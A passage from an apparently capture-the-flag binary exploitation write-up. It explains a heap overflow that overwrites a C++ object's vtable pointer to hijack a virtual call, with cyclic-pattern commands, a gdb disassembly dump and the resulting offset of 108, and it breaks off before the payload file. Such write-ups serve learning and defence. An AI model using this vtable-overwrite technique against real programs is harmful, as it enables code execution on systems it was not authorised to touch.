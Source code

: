 - **Key point:** The extra bytes overflow from `obj1->annotation` into `obj2` and overwrite its vtable pointer (`0xV2`) with an controlled value (`0xATTACK`).

#### **Step 3.3: Hijacking Execution Flow**

Later in the code, the expression `obj2 + obj1;` is executed. Since `operator+` is declared as `virtual`, the call looks up the function address from `obj2`’s vtable pointer. With the vtable pointer now overwritten, the lookup will jump to an address specified by us.

- **Result:** The program ends up executing code at the controlled address, thus redirecting control of the execution flow.

---


# Exploiting


So our goal  override `obj2` vtable with controlled buffer address usually `annotation[100]` that itself contain address to a malicious function (don't exist on code) or to a shellcode located on `annotation + 4`.


Get the offset from `obj1->annotation` to `obj2->vtable`:

```
 ❯ python3 tools/cyclic.py -g 130
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A


   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
   0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
gdb-peda$ p $eax
$1 = 0x41366441    <<<--- new value of overridden obj2 vtable


 ❯ python3 tools/cyclic.py -o 0x41366441
Offset found at: 108
```

The offset is **108**.


The payload python file looks like:
